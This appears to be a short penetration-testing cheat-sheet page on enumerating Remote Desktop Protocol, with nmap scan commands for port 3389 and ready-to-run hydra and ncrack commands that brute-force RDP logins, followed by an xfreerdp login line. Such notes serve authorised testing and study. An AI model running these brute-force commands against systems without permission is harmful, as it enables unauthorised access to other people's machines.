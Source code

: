 ```yaml
---
description: Remote Desktop Protocol Enumeration
---
```


# RDP Enumeratrix

## Remote Desktop Protocol Enumeration

> The RDP is developed by Microsoft for Endpoint Accessing. which allows to display and controls to be transmitted in GUI over Encrytped format.
>
> Its works on POrt 3389.

### Network Mapper

```
nmap -Pn -n -sV -p 3389 #TARGETIP
nmap -Pn -n -sV -sC rdp*.nse #TARGETIP
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### BruteForce

```
hydra -L username.txt -P password.txt rdp://TARGETIP
ncrack -vv -U username.txt -P password.txt rdp://TARGETIP
```

### Accessing RDP

<pre><code><strong>xfreerdp /u:username /p:"password" /v:#TARGETIP
</strong></code></pre>

